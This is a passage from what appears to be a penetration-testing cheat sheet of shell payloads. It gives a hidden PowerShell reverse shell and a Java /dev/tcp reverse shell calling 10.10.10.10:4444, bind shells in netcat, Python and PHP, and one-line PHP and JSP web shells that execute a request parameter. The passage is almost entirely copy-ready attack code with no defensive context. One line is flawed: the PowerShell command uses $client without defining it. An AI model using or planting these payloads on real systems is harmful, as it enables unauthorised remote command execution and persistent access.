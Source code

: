 ### PowerShell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Bind Shells

### Netcat
```bash
nc -lvp 4444 -e /bin/sh
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",4444));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

### PHP
```php
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",4444);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}}'
```

## Web Shells

### PHP
```php
<?php system($_GET['cmd']); ?>
<?php exec($_GET['cmd']); ?>
<?php shell_exec($_GET['cmd']); ?>
<?php passthru($_GET['cmd']); ?>
```

### JSP
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
